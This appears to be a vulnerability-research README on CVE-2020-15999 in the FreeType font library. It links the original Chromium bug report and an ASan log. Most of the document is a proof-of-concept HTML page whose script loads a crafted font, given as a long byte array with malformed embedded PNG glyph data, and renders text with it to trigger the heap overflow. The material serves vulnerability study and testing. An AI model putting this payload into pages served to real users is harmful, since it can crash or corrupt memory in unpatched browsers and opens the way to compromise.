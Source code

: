# CVE-2020-15999

> FreeType
- Original Report : [Link](https://bugs.chromium.org/p/chromium/issues/detail?id=1139963&q=cve-2020-15999&can=1)

- asan 로그
  
    [asanlog.txt](./CVE-2020-15999_data/asanlog.txt)

## POC

```html
<body>
<script>
font_face = new FontFace('fontname', new Uint8Array([0,1,0,0,0,11,0,144,0,3,0,
    32,79,83,47,50,0,0,0,0,0,0,0,188,0,0,0,96,99,109,97,112,0,0,0,0,0,0,1,28,0,
    0,0,44,103,108,121,102,0,0,0,0,0,0,1,72,0,0,0,2,104,101,97,100,0,0,0,0,0,0,
    1,76,0,0,0,54,104,104,101,97,0,0,0,0,0,0,1,132,0,0,0,36,104,109,116,120,0,0,
    0,0,0,0,1,168,0,0,0,12,108,111,99,97,0,0,0,0,0,0,1,180,0,0,0,8,109,97,120,
    112,0,0,0,0,0,0,1,188,0,0,0,32,110,97,109,101,0,0,0,0,0,0,1,220,0,0,0,6,112,
    111,115,116,0,0,0,0,0,0,1,228,0,0,0,40,115,98,105,120,0,0,0,0,0,0,2,12,0,0,
    1,157,0,4,3,31,1,144,0,5,0,0,2,188,2,138,0,0,0,140,2,188,2,138,0,0,1,221,0,
    50,0,250,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,32,32,32,
    32,0,64,0,65,0,67,2,238,255,6,0,0,3,32,0,18,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,
    32,0,8,0,0,0,1,0,3,0,1,0,0,0,12,0,4,0,32,0,0,0,4,0,4,0,1,0,0,0,67,255,255,0,
    0,0,65,255,255,255,191,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0,1,0,0,0,0,0,0,95,15,60,
    245,0,43,3,32,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3,32,3,32,0,0,0,8,0,2,
    0,0,0,0,0,0,0,1,0,0,3,32,255,6,0,0,3,32,255,255,0,1,3,31,0,1,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,3,3,32,0,90,3,32,0,90,3,32,0,90,0,0,0,0,0,0,0,0,0,1,0,0,0,3,
    0,8,0,2,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,6,0,0,0,2,0,0,
    0,0,0,0,255,181,0,50,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,3,0,0,0,0,0,
    0,0,1,0,1,0,0,0,1,0,0,0,12,0,150,0,72,0,0,0,20,0,0,0,20,0,0,0,208,0,0,1,145,
    0,0,0,0,112,110,103,32,137,80,78,71,13,10,26,10,0,0,0,13,73,72,68,82,0,0,0,
    3,0,1,0,163,8,6,0,0,1,244,153,148,89,0,0,0,121,73,68,65,84,120,1,1,110,0,
    145,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,
    0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,
    255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,
    255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,
    255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,65,255,0,255,255,
    65,255,92,133,71,85,172,91,212,33,0,0,0,0,73,69,78,68,174,66,96,130,241,139,
    0,0,0,0,112,110,103,32,137,80,78,71,13,10,26,10,0,0,0,13,73,72,68,82,0,0,0,
    3,0,1,0,163,8,6,0,0,1,244,153,148,89,0,0,0,126,73,68,65,84,120,1,1,115,0,
    140,255,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
    0,0,0,0,0,0,115,0,1,194,215,216,247,0,0,0,0,73,69,78,68,174,66,96,130,184,
    140,0,0,0]));
font_face.load().then(() => {
  document.fonts.add(font_face);
  document.body.style.fontFamily = 'fontname';
  document.body.textContent = 'B';
});
</script> 
</body>
```

